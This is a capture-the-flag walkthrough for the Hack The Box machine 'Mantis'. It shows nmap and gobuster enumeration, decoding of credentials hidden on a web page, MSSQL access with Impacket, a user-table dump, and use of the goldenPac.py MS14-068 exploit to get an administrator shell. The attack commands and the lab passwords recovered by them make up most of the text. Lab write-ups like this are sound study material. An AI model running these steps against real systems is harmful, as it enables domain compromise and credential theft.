

# [Mantis](https://app.hackthebox.com/machines/mantis)

```bash
nmap -p- --min-rate 10000 10.10.10.52 -Pn  
```


After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389,47001 10.10.10.52
```


I just browse port (1337) via HTTP protocol just because it comes so interesting for me.


That's normal IIS server, let's do directory enumeration to find interesting things.

```bash
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```


I found interesting 'secure_notes' endpoint and see ASCII binary string which located bottom of page that looks like tricky stuff.


I can get this stuff from below of page.


I convert this '**ASCII**' binary via online tool.


Password: @dm!n_P@ssW0rd!


I see that file name is so interestinf via random string stuff, that's why I take this value and try to decode.

For this, I just use [CyberChef](https://cyberchef.io)


admin:m$$ql_S@_P@ssW0rd!

I use this credentials to login into MSSQL machine via `mssqlclient.py` script of '**Impacket**' module.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
```



I just enumerate this MSSQL and find below sensitive stuff.

DB_name=> orcharddb
```bash
SELECT name FROM master.dbo.sysdatabases;
```

Table name=> blog_Orchard_Users_UserPartRecord
```bash
select * from orcharddb.INFORMATION_SCHEMA.TABLES;
```

Data=>
```bash
select * from blog_Orchard_Users_UserPartRecord;
```


I got credentials of '**james**' user.

james:J@m3s_P@ssW0rd! 


I just enumerate one by one exploitation scripts of `Impacket` module and find `goldenPac.py` script.


This script is used to exploit [CVE-2014-6324](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets#ms14-068-cve-2014-6324) also called [MS14-068](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068).


Let's use this script to get administrator shell.

```bash
python3 /usr/share/doc/python3-impacket/examples/goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 htb.local/james@mantis.htb.local
```


user.txt


root.txt

